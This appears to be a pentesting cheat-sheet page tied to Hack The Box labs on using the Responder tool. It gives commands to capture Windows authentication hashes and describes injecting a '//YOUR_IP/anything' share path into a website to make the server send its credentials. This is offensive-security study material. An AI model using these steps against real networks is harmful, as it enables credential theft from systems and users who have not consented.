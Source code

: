 # Responder

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![attacking_common_services](../../../../_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)
[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)
[![return](../../../../_badges/htb-p/return.svg)](https://app.hackthebox.com/machines/Return)

<div class="row row-cols-lg-2"><div>

You can use [responder](https://github.com/lgandx/Responder) <small>(5.0k ⭐)</small> to catch Windows authentication requests allowing us to grab hashes and passwords.

For instance, a website may be using SMB to access some shares based on the user input. If we inject a share leading to our machine, we may be able to grab the credentials used to connect to the share.

```ps
$ sudo responder -I tun0
$ sudo responder -i IP -I tun0
```

Logs are stored at: `/usr/share/responder/logs`.
</div><div>

Following the previous example, if we inject `//YOUR_IP/anything`. If the website was configured to use the current user credentials to connect to the share, then you will receive them, and will have to crack them.

📚 It works with SMB, LDAP, etc.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

Passive Network Discovery

```ps
$ sudo responder -I tun0 -A
$ sudo responder -I tun0 -wdF -b
$ sqlitebrowser /usr/share/responder/Responder.db
$ rm -rf /usr/share/responder/Responder.db
```
</div><div>
</div></div>